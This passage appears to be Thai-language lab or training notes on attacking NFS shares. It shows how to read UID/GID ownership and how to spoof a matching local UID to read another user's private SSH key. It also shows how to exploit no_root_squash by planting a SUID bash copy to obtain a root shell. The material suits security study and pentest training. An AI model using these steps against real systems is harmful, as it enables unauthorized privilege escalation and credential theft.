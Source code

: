 ### ดู UID และ GID:
```bash
ls -n mnt/nfs/
```

**ผลลัพธ์:**
```
-rw-r--r-- 1 1000 1000 1872 Sep 25 00:55 cry0l1t3.priv
-rw-r--r-- 1 1000 1000  348 Sep 25 00:55 cry0l1t3.pub
-rw-r--r-- 1    0 1000 1221 Sep 19 18:21 backup.sh
-rw-r--r-- 1    0    0 1872 Sep 19 17:27 id_rsa
-rw-r--r-- 1    0    0  348 Sep 19 17:28 id_rsa.pub
```

**วิเคราะห์:**
- UID `0` = root
- UID `1000` = user ธรรมดา (มักเป็น user แรกในระบบ)
- GID `1000` = group ของ user นั้น

---

## 🎯 เทคนิคการโจมตี (Privilege Escalation)

### สถานการณ์: เราต้องการอ่านไฟล์ที่เป็นของ user อื่น

**วิธีการ:**

1. **สร้าง user ใหม่ในเครื่องเราที่มี UID/GID เหมือนกับเป้าหมาย**
```bash
# สร้าง user UID 1000 (เหมือนกับ cry0l1t3)
sudo useradd -u 1000 fake_user
sudo su fake_user
```

2. **ตอนนี้เราสามารถอ่าน/แก้ไขไฟล์ของ cry0l1t3 ได้แล้ว!**
```bash
cat mnt/nfs/cry0l1t3.priv  # อ่าน private key ได้!
```

### เทคนิคขั้นสูง: Upload Shell ที่มี SUID

**ถ้า NFS มีการตั้ง `no_root_squash`:**

```bash
# 1. คัดลอก bash ไปที่ NFS share
cp /bin/bash ./target-NFS/mnt/nfs/bash

# 2. ตั้ง SUID bit (ทำให้รันด้วยสิทธิ์เจ้าของไฟล์)
chmod +s ./target-NFS/mnt/nfs/bash

# 3. SSH เข้าไปในเซิร์ฟเวอร์เป้าหมาย แล้วรัน
./bash -p  # จะได้ root shell! 💀
```

---
